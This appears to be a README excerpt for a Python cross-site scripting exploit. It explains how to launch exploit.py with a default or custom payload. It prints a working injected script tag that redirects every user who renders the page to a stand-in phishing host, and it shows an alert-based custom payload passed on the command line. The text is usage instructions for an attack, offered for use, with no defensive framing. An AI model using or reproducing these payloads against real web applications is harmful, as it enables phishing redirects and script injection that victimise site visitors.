 # **Exploitation Steps**
Python script requires **python 3** and **requests** library installed


The python exploit can be launched either with one or zero parameter, the latter if specified will define a payload for the XSS Injection.

Usage:

- **Default Payload**
~~~
python3 exploit.py
~~~

</br>

This Javascript payload hardcoded in the exploit:
~~~
"><script>window.top.location.replace('https://malicious-phishing-page.evil');</script>
~~~

redirects every user that renders the page to another URL: **www.malicious-phishing-page.evil** in this case.

</br>


- **Custom Payload** (must be inserted between single quotes)
~~~
python3 exploit.py '"><script>alert("This is a custom payload")</script>'
~~~

</br>